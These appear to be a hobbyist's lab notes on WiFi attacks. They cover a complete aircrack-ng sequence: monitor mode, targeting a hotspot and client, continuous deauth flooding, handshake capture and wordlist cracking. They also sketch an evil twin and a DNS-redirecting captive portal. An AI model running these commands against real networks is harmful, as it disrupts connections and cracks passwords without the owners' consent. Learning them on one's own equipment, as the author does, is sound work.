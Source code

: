 This will be very project based and subject to change constantly.
# Learning Stuff time
## Deauth
Looking at wikipedia, it seems to work in a similar way to a radio jammer. The attack also targets the connection when it is not encrypted so it can work on type of encryption?

This can also be used to force a connection to an evil twin.

## Evil Twin
The one thing I'm confused about is if you need to have the same mac address of the Access point.

From what i can tell you dont need to and the SSID is the only thing that matters. You can also mimic the security settings but it is not needed. The SSID is sent to the AP in the first step of the handshake, the MAC address is also sent. The reason it is sent is so the router can add it to the  association table which says "you have connected before so everything is good." Otherwise it checks the SSID

With the above in mind all you need to do is copy the SSID and block the correct AP and the rest should follow through.

## WPA3 Wifi handshake
Trying to configure the wifi card and wireshark seems like a lot of work, so instead I'm just going to find one online and use that.

I found this repo [link](https://github.com/vanhoefm/wifi-example-captures) Which contains a bunch of pcap files. Looking at the wpa3 pcap file there are 4 EAPOL packets. Which seems to be the handshake! 

## Deauth Attack
Going to be using a Raspberry Pi with a cheap $15 wifi adapter that can be put into monitoring mode.

The goal will be to deauth a device from my hotspot, this is the only thing i have that has wpa3 encryption :( .

### The tech bit.
Listing wireless interfaces on the pi.
```bash
eljay@raspberrypi:~ $ iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:"theholygrail"  
          Mode:Managed  Frequency:5.22 GHz  Access Point: IDK if this is private   
          Bit Rate=24 Mb/s   Tx-Power=31 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-27 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:221  Invalid misc:0   Missed beacon:0

wg0       no wireless extensions.

wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=36 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```
The device is the `wlan1` interface. Next is to put it into monitoring mode using airmon-ng.
```bash
sudo airmon-ng start wlan1 
```
Now you can list the ESSID's
```shell
sudo airodump wlan1
```
WIthin the dump is my phone.
```
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
8A:CC:B5:1D:9A:F9  -78        9        0    0   6  130   WPA3 CCMP   SAE  ElJay’s Phone              
```
No i dont call it `ElJay's Phone` I renamed it :)
Next we can do the same thing but target this device by using the BSSID.
(Everytime i check the hotspot the BSSID changes.)

```
sudo airodump-ng -d 2A:C1:ED:94:F8:07 wlan1
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 2A:C1:ED:94:F8:07  -77       14      138    0   6  130   WPA3 CCMP   SAE  <length: 15>                 

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 2A:C1:ED:94:F8:07  58:2F:40:CE:5D:73  -70    0 -24e    53      138    
```
Now that we have the BSSID of both the AP and client we can send a deauth packet.
**Disclaimer: This is the cyber crimes bit. Make sure it is your own network or that you have permission.**
```bash
sudo aireplay-ng  -0 0 -a 2A:C1:ED:94:F8:07 -c 58:2F:40:CE:5D:73 wlan1
```
where `a` is the access point (hotspot) and `c` is the client (Nintendo switch).

## Get and crack a handshake.
Running the scanning tool again and manually connecting to wifi from the switch shows that a WPA handshake has been captured. Further down it shows the AP it has connected to and under notes it says it was EAPOL. How do I save the hash and make hashcat do all the work?

Official aircrack-ng tutorial [link](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

`-w psk` will save the handshake apparently. Forcing the switch to connect again and ...

(For safety best to `-d` to only get your AP)
```
sudo airodump-ng -c 6 wlan1 -w psk -d A6:99:42:94:34:7F
```

I have a pcap file now! Wireshark time. The file is big and I dont want to deal with that right now.

Cracking it on the RPi (very bad idea) with a questionable wordlist. shows that it works!
```bash
aircrack-ng -w pwd.lst psk*.cap
```

you can also use hashcat but you have to convert the file first [link](https://hashcat.net/cap2hashcat/).

# Looking into how to generate a capture page.
Only useful thing i can find is this [link](https://github.com/jee1mr/captive-portal).

I guess i could try to figure out how to route all traffic to that page. If this was to be used for some form of authentication it would then have a dns server that works but there is no need to do that right now.

So a DNS server will resolve different addresses to different IP's and then do protocol things. What if I make a DNS server that resolves everything to http://localhost/landingpage.php ? 

